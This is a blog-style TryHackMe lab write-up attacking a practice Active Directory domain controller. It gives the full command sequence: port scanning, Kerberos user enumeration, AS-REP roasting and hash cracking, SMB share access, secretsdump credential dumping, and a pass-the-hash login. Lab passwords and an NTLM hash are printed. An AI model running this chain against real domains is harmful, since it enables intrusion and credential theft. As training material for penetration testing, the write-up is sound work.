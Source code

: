 ```yaml
---
layout: post
title: "Active Directory"
date: 2023-05-20 
categories: ["Hands-on", "TryHackMe"]
tags: "Active Directory"
---
```


# [Active Directory](https://tryhackme.com/room/attacktivedirectory)
> Attackers think in Graphs
Tool used: **nmap**, **enum4linux**, **Impacket**, **evil-winrm**

**Scenario:**
*99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?*

By now, I have focused my skills and energy on exploiting Linux machines. However, I want to switch gears and focus on Windows' Active Directory instead. This shift will help me broaden my horizons and learn not only how to exploit different operating systems but also the various services and systems within that operating system.


## Setup
I followed the setup section to install Impact, bloodhound, and Neo4j, after doing so i ran the command to update and upgrade for any issues. Downloading BloudHound and Neo4j did take a long time so I started reading on each tool. 

```bash
sudo apt update && apt upgrade 
```

### Impacket
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) is a collection of python classes for working with network protocols like IP, TCP and such. It has many features including remote execution, Kerberos, Windows Secrets, Server tools, and etc. 

### Bloodhound
[BloodHound](https://github.com/BloodHoundAD/BloodHound) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Bloudhound can be used to identify highly complex attack paths, identify and eliminate the paths, gain deeper understanding of privilege relationships 

### Neo4j
Neo4j is a grapgh database managment system. It is designed to store, manage, and process large amounts of structured and connected data in the form of a graph. Unlike traditional relational databases, which store data in tables with rows and columns, Neo4j organizes data in nodes, relationships, and properties.

### evil-winrm
[WinRM] (https://www.kali.org/tools/evil-winrm/)(Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

## Enumeration 
I started the enmueration phase with the basics scanning for open ports using nmap. The result were a lot, but I can see that port 139/445 are open and the question asks about the tool to use to enumerate that port which ofcourse is enum4linux.

## Ports scanning  
```bash
nmap -sV 10.10.159.47

53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 09:16:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enumeration 
We can use **enum4linux** to enumerate port 139/445 SMB. The command takes two arguments, the -U to get the serlist and the -o To gather OS information of the target. The NetBIOS-Domain name can be found in the result of the enumeration 

```bash
enum4linux -U -o 10.10.159.47
```
> Commonly used invalid Top-level Domain for AD Domain is .local

### [Kerberos](https://github.com/ropnop/kerbrute/releases) Enumeration 
Kerberos is a key authentication service within AD, for the tool that will be used its **Kerbute** to brute force discover of users, passwords and passwords spray (add later what password spray is)

After setting up Kerbrute to work enumerate the usernames and files i used the previous question hind for the top level domain to write the command below and provided the username list. The command userenum used to enumerate valid usernames 

```bash
./kerbrute userenum --dc 10.10.159.47 -d spookysec.local user.txt
```

After running the enumeration I noticed 3 users that stood out and svc-admin was the answer to the notable account discovered, and the other one was backup.


## Exploiting 

### Abusing Kerberos
ASREPRoasting attach occurs when a user account has the privilege "Does not require Pre-Authentication" set. Meaning that no valid identification is needed befoee requesting a Kerberos Ticket on the specified user account. **Impacket** will be used to make this attack happen, it has a tool called **GetNPUsers.py**that sllows us to query ASREPRoastable accounts from Key Distrubtion center. I ran the command below with the kerbuser.txt that contains the backup and the svc-admin to see if one of them or both of them are ASREPRoastable accounts. SVC-Admin came back with a long hash I copied the first part of the hash and found it in the hashcat examples as '18200 - Kerberos 5, etype 23, AS-REP' 

```bash
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile kerbuser.txt -dc-ip 10.10.159.47 spookysec.local/
```

Cracking the hash using hashcat mode 18200 to find that the password is management2005

```bash
hashcat -m18200 kerbhash /usr/share/wordlists/rockyou.txt 
```

## Back to Enumeration
> Enumerating any shares that the domain controller may be giving out. 
**smbclient** is used to make remote SMB shares, the option *-L* lists the shares the command below was used to list the share using the password that was found. 

```bash
smbclient -L 10.10.159.47 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
    
    SMB1 disabled -- no workgroup available
```

For this part i have to use the guide to learn how to use smbclient and what to do. After listing the shares I need to access the backup's content to view the text file. I used the below command to get the file and when it read the content it was encoded so i used cyberchef to decode the base64 to 'backup@spookysec.local:backup2517860' 

```bash
smbclient \\\\10.10.159.47\\backup -U svc-admin
```

## Privilege Escalation 
Now that we have backup credentials that has unique permission that allows all AD changes to be synced with this user we can use the impacket tool **secretsdump.py** to retrieve all password hashes that the backup user account has. I ran the below comman to start the attack and retrieve all the user accounts hashes using the backup username and password found in the previous step.

```bash
python secretsdump.py -just-dc backup@10.10.159.47
```

After recieving all the hashes for the adminstrator, svc-admin and backup I used the evilwinrm with -H option to pass the user's hash to log in as the Administrator then i checked each user desktop to finally get the flags.

```bash
./evil-winrm -i 10.10.159.47 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```